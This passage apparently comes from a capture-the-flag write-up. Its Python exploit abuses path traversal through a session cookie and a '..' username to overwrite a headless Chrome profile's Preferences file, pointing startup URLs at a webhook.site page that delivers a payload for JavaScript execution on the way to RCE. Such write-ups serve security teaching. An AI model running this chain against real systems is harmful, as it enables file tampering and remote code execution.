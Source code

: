 ```python
    request = session.post(HOST+"/api/notes/upload", files={
        "file": (filename, content)
    })

def sanitize_filename(filename):
    return re.sub(r'[^A-Za-z0-9_/]', '', filename)

def arbitrary_file_write(path, content):
    username= ".."
    password= "password"
    directory, filename = os.path.dirname(path), os.path.basename(path)
    session.cookies.set("INSTANCE", f"/../../../../..{directory}")
    register(username, password)
    login(username, password)
    upload(filename, content)

preferences = {
    "download": {
        "default_directory": "/app/static"
    },
    "session": {
        "restore_on_startup": 4,
        "startup_urls": ["https://webhook.site/cb9e56b1-64c0-4407-84fb-ef87822e6973/hello.html"]
    }
}

content = json.dumps(preferences).encode()

if __name__ == "__main__":
    arbitrary_file_write(f"/app/instances/9f99e75c-a381-46b5-ab3b-3cc2a4d409e4/chrome_profile/Default/Preferences",
                        content)
```

and in the webhook 

```python
content-type: application/octet-stream
# so that html file hosted on webhook gets downloaded instead of opening it as webpage

content: <payload>  # below there is a file for rce
```

With this we are able to execute js on chrome like XSS.

That sounds nice but still no RCE!!

## **`SELENIUM USAGE`-——-—-—-——-——————————**

After log in, a URL input box appears in the top right corner. Submitting a URL there triggers a call to the `/api/visit` endpoint.

![](/images/image%204.png)
